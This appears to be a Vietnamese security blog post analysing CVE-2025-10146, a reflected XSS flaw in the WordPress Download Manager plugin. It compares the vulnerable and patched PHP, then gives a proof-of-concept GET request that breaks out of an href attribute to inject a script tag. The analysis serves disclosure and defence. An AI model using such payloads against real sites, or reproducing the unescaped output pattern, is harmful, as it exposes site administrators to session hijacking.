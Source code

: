 ```yaml
---
title: CVE-2025-10146 Analysis & POC
description: Security Vulnerability in WordPress Download Manager Plugin.
date: 2025-10-06 19:18:00 +0700
categories: [CVE Analyst]
tags: [analyst, plugin, xss]
weight: 1
images: []
featuredImage: "app.png"

lightgallery: true

toc:
auto: false
---
```


Lỗ hổng trong plugin **Download Manager** trước phiên bản **3.3.24**. Dữ liệu được lấy từ **GET** request được in trực tiếp vào **HTML attribute**, **reflected XSS** xảy ra khi người dùng có đặc quyền truy cập vào đường dẫn do attack cung cấp.

* **CVE ID**: [CVE-2025-10146](https://www.cve.org/CVERecord?id=CVE-2025-10146)
* **Product**: [WordPress Download Manager Plugin](https://wordpress.org/plugins/download-manager)
* **Vulnerability Type**: Cross Site Scripting
* **Affected Versions**: <= 3.3.23
* **CVSS severity**: Medium (7.1)
* **Required Privilege**: Unauthenticated

---

## Requirements

* [**Local WordPress and Debugging**](https://w41bu1.github.io/posts/wordpress-local-and-debugging/)
* **Download Manager**: v3.3.23(vul) và v3.3.24(fix)
* **diff tool**: **meld** hoặc bất cứ tool nào có thể compare để thấy được sự khác biệt giữa 2 version

---

## Analysis

### Patch Diff

Dùng diff tool bất kì để so sánh sự khác biệt giữa bản lỗi và bản vá.
Có sự khác biệt rõ ở file **src/Admin/views/stats/history.php**.

**Bản lỗi**:

```php
<?php if (!empty($user_ids)): ?>
    <div class="clear-filter">
        <?php
        $get_params_xu = $get_params;
        unset($get_params_xu['user_ids']);
        $reset_url = add_query_arg($get_params_xu, 'edit.php');
        ?>
        <a href="<?php echo $reset_url; ?>" class="clear-btn" title="<?php _e('Clear user filter', 'download-manager'); ?>">
            <i class="fas fa-times"></i>
        </a>
    </div>
<?php endif; ?>
```

Lấy **GET params** và gán trực tiếp vào **href** của thẻ `<a>` mà không có cơ chế bảo vệ => nguy cơ **reflected XSS**.

**Bản vá**:

```php
<?php if (!empty($user_ids)): ?>
    <div class="clear-filter">
        <?php
        $get_params_xu = $get_params;
        unset($get_params_xu['user_ids']);
        $get_params_xu = \WPDM\__\__::sanitize_array($get_params_xu, 'safetxt');

        $reset_url = add_query_arg($get_params_xu, 'edit.php');
        ?>
        <a href="<?php echo esc_url($reset_url); ?>" class="clear-btn" title="<?php _e('Clear user filter', 'download-manager'); ?>">
            <i class="fas fa-times"></i>
        </a>
    </div>
<?php endif; ?>
```

![Patch Diff](patch_diff.png "Patch Diff: sanitized GET parameters and escaped URL")

Bản vá đã **sanitize** mảng **GET params** bằng `sanitize_array` và sử dụng `esc_url`  để **escape URL** => an toàn hơn.

### How It Work?

Ta cần tìm URL thực sự để inject GET params chứa XSS payload.

**src/Admin/views/stats/history.php** chứa các tag **php**, **HTML** và nằm trong **views** cho thấy file này được include ở nơi nào đó trong mã nguồn plugin.

Ta tìm với từ khóa `history.php` trong thư mục plugin

![Search 1](search1.png "Search results for history.php")

👉 Không có kết quả nào khớp. Khả năng cao nó được include động như này `{$file_name}.php`. Ta tìm với regex `\{.*\}\.php`:

![Regex](regex.png "Regex search for dynamic includes")

**src/Admin/views/stats/history.php** được include trong **src/Admin/views/stats.php**

URL thực sự để truy cập được khai báo ở đầu file **stats.php**

```
$base_page_uri = "edit.php?post_type=wpdmpro&page=wpdm-stats";
```

Tương tự **history.php**, **stats.php** cũng được include ở đâu đó trong mã nguồn plugin. Nhưng không cần quan tâm vì ta đã tìm được URL thực sự.

Để chắc chắn hơn, ta đặt **breakpoint** tại vị trí lỗ hổng trong file **src/Admin/views/stats/history.php**, sau đó bắt đầu debug và truy cập URL:

```
edit.php?post_type=wpdmpro&page=wpdm-stats
```

![Debug](debug.png "Breakpoint debugging to observe GET params")

Trước tiên, plugin lấy toàn bộ **GET parameters** vào `$get_params`.

Nếu `$user_ids` không rỗng, plugin sẽ tạo **nút “Clear filter”**. Để làm nút này hoạt động, cần một URL mà **không còn `user_ids`** nữa, nên plugin làm như sau:

```php
$get_params_xu = $get_params;        // copy toàn bộ GET parameters
unset($get_params_xu['user_ids']);   // bỏ user_ids ra khỏi mảng
$reset_url = add_query_arg($get_params_xu, 'edit.php'); // tạo URL mới
```

* `unset($get_params_xu['user_ids'])` => loại bỏ bộ lọc `user_ids` khỏi URL.
* `add_query_arg($get_params_xu, 'edit.php')` > tạo URL mới với các tham số còn lại.

Cuối cùng, URL này được gắn vào nút “Clear filter”:

```php
<a href="<?php echo $reset_url; ?>" class="clear-btn">...</a>
```

**Kết quả:** Khi người dùng nhấn nút, trang sẽ load lại **mà không còn bộ lọc user_ids**, tức là `“clear filter”`.

---

## Exploit

### Detect XSS

Gửi GET request chứa XSS payload:

```http
GET /wp-admin/edit.php?post_type=wpdmpro&page=wpdm-stats&user_ids[0]=1&payload="></a><script>alert(document.domain)</script> HTTP/1.1
```

Ta thêm `"></a>` để đóng thẻ `<a>` sau đó thêm 1 script dể `alert()`

![XSS](xss.png "Reflected XSS triggered via GET parameter")

👉 XSS thành công, khi người dùng có đặc quyền truy cập vào URL do attacker cung cấp thì **reflected XSS** xảy ra => Xảy ra đúng kịch bản **Unauthenticated**

---

## Conclusion

Lỗ hổng **CVE-2025-10146** trong plugin **WordPress Download Manager <= 3.3.23** là **reflected XSS**, xảy ra khi dữ liệu từ **GET request** được in trực tiếp vào **HTML attribute** mà không được sanitize hoặc escape. Người dùng có quyền truy cập vào đường dẫn này (admin/author) có thể bị tấn công nếu truy cập URL do attacker tạo.

Bản vá **3.3.24** đã:

1. **Sanitize mảng GET parameters** (`sanitize_array`) để loại bỏ ký tự nguy hiểm.
2. **Escape URL** khi in ra HTML (`esc_url`) để ngăn XSS.

**Key takeaways**:

* Luôn **sanitize và escape dữ liệu** từ người dùng trước khi render ra HTML.
* Kiểm tra **quyền truy cập** trước khi xử lý hoặc hiển thị dữ liệu nhạy cảm.
* Ngay cả các role thấp (contributor) vẫn có thể trở thành điểm tấn công nếu plugin không bảo vệ đúng cách.
* Cập nhật plugin thường xuyên là cách phòng thủ đơn giản nhưng hiệu quả nhất.

---

## References

[Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[WordPress Download Manager Plugin <= 3.3.24 is vulnerable to Cross Site Scripting (XSS)](https://patchstack.com/database/wordpress/plugin/download-manager/vulnerability/wordpress-download-manager-plugin-3-3-23-reflected-cross-site-scripting-via-user-ids-parameter-vulnerability)

---
